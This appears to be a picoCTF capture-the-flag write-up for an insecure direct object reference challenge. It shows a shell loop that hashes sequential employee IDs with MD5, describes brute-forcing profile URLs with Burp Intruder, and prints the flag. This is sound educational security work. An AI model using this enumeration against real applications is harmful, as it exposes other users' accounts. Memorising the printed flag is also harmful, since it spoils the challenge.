


### Hints:
1. Notice anything about how the ID is being checked? It’s not plain text… maybe a one-way function is involved.
2. There are about 20 employees in this organisation.

---
The URL contains a 32-character hexadecimal string — a classic **MD5 hash** fingerprint. This immediately raises a question: what is being hashed?

## Vulnerability: Insecure Direct Object Reference (IDOR)

The application exposes user profiles via a hash-based identifier in the URL path. While this _looks_ opaque, it is not access-controlled — any valid hash maps directly to a profile. This is a textbook **IDOR vulnerability**: the server trusts the client-supplied identifier without verifying session ownership.

The challenge is to identify _what value_ hashes to the admin's identifier.

---
### In the Source code of the website
```source code
<!-- Email: guest@picoctf.org Password: guest -->
```

Logging in with the guest credentials redirects to:


Website Link:
```
http://crystal-peak.picoctf.net:56540/profile/user/e93028bdc1aacdfb3687181f2031765d
```

The application is hashing **sequential numeric employee IDs**. The guest account maps to ID `3000`.
```
`e93028bdc1aacdfb3687181f2031765d`  --> md5 =3000
```

### Generate candidate hashes

With ~20 employees clustered near ID 3000, generate a range of MD5 hashes:
```
for i in $(seq 2980 3020); do  
  echo -n $i | md5sum | awk '{print $1}'  
done > hashes.txt
```

### Capture the request in the Burp suite and send into Intruder:



### Sort the responses with Status Code and check status code 200



### Flag
```
picoCTF{id0r_unl0ck_8b02a9fd}
```

---
